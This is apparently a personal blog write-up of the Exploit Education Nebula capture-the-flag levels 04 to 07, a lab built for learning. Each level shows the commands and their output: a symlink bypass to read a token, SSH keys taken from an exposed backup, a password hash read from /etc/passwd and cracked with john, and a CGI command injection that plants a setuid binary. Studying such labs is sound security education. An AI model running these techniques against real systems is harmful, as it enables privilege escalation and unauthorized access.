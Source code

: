Title: Exploit Education - Nebula Part 2
Date: 2020-09-06
Modified: 2020-09-06
Tags: learning, ctf, exploit, nebula

## [Level 04](https://exploit.education/nebula/level-04/)

#### Solution
Source code shows, that verification happens only for `token` name. Let's create symbolic link to file and try to read its content. After reading it, let's use it as password.

#### Result
```bash
level04@nebula:/home/flag04$ ls -la
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
level04@nebula:/home/flag04$ ln -s ~flag04/token /tmp/not
level04@nebula:/home/flag04$ ./flag04 /tmp/not
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:~$ su flag04
Password:  # use token here
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## [Level 05](https://exploit.education/nebula/level-05/)

#### Solution
We're looking for weak permissions. It seems that `.backup` directory contains copy of ssh keys, which can be used.

#### Result
```bash
level05@nebula:~$ cd ~flag05
level05@nebula:/home/flag05$ ls -ahtl
total 9.0K
drwxr-x--- 1 flag05 level05   80 2020-09-05 19:18 .
-rw------- 1 flag05 flag05    20 2020-09-05 19:18 .bash_history
drwx------ 2 flag05 flag05    60 2020-09-05 19:17 .cache
drwxr-xr-x 1 root   root     200 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
level05@nebula:/home/flag05$ cd
level05@nebula:~$ ls ~flag05/.backup
backup-19072011.tgz
level05@nebula:~$ cp ~flag05/.backup/backup-19072011.tgz .
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ ssh flag05@localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## [Level 06](https://exploit.education/nebula/level-06/)

#### Solution
The `flag06` came from a legacy unix system. It probably means, that password could be stored inside `/etc/passwd`. After retrieving password, I had to search for an answer, how to crack it. `john` helped with that.

#### Result
```bash
level06@nebula:~$ grep flag06 /etc/passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
➜  ~ john --show pass
?:hello

1 password hash cracked, 0 left
level06@nebula:~$ su flag06
Password:  # use found password
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## [Level 07](https://exploit.education/nebula/level-07/)

#### Solution
User `flag07` is running CGI server, which is pinging provided host. Host is an parameter to URL. It means, we should be able to modify URL this way, to retrieve correct information.

#### Result
I struggled with that for a while.
```bash
level07@nebula:/home/flag07$ wget localhost:7007/index.cgi?Host=;getflag
--2020-09-05 20:31:46--  http://localhost:7007/index.cgi?Host=
Resolving localhost... 127.0.0.1
Connecting to localhost|127.0.0.1|:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
index.cgi?Host=: Permission denied

Cannot write to `index.cgi?Host=' (Permission denied).
getflag is executing on a non-flag account, this doesn't count
```
I wasn't sure, why it is not revealing flag. Finally, I searched through an internet for similar solution and found what's my mistake. I was using `;` instead of `%3b` which is encoded semicolon. Instead of sending my payload to website, I was sending `Host=localhost` and later, I was running separate command, under my username.

Rookie error.


#### Alternative solution
After retrieving `getflag` I thought about another attempt to exploit a server. For this purpose, I used `exploit.c` prepared for another level, and I sent this query:
```bash
level07@nebula:/tmp$ cat > exploitable.sh << EOF
cp /tmp/exploit /home/flag07/exploit
chmod u+s /home/flag07/exploit
EOF
level07@nebula:/tmp$ wget localhost:7007/index.cgi?Host=%3b/tmp/exploitable.sh
level07@nebula:/tmp$ cd ~flag07
level07@nebula:/home/flag07$ ls
exploit  index.cgi  thttpd.conf
level07@nebula:/home/flag07$ ./exploit
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```
